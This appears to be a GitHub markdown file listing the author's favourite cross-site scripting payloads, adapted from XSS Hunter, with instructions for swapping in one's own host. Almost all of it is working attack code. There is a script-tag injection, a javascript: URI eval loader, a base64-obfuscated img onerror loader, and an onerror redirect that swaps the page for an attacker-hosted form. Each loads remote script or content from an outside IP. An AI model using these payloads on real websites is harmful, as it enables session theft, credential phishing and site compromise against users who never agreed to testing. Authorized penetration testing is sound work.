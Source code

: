 # A Few of My Favorite XSS Payloads: 

Most of these are from or variations of [XSS Hunter]{https://xsshunter.com/app} payloads. 
You can simply modify the host in the payload and run your own web server to both host secondary payloads and check for blind XSS.

## Basic Tag XSS payload -
```
"><script src=http://192.168.1.1></script>
```
## URI XSS payload - 
```
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://192.168.1.1\';document.body.appendChild(a)')
```
## IMG Tag Base64 encoded payload - 

Final payload - (don't use this directly, follow the directions below. This is just an example)
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHA6Ly8xOTIuMTY4LjEuMSI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= onerror=eval(atob(this.id))>
```

Inner payload - modify your IP address then base64 encode this. The base64 encoded payload will replace the value of the id parameter above.
```
var a=document.createElement("script");a.src="http://192.168.1.1";document.body.appendChild(a);
```

## IMG Tag + iframe to replace page with your own HTML form - 
```
<img src=x onerror="Javascript:window.location.replace('http://192.168.1.1/payload.html')">
```




